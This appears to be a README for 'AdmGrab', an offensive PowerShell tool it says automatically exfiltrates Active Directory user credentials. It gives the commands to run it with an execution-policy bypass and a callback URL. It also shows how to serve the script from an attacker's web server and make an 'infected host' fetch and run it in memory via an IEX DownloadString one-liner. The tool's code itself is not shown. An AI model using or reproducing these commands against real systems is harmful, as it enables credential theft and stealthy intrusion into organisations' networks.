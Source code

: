 # AdmGrab
Automatically exfiltrate AD user credentials.

## Local Execution
For execution from file, use
`powershell.exe -ExecutionPolicy ByPass -File AdmGrab.ps1 -aesKey=KEY -callbackUrl=URL`

## Remote Execution
To enforce execution in memory start a python webserver in the folder the AdmGrab.ps1 is located
```
pyton -m SimpleHTTPServer 8080
```

Suppose you are on IP 10.0.0.1, now force the infected host to run the following command
```
powershell.exe "IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.1:8080/AdmGrab.ps1')"
```

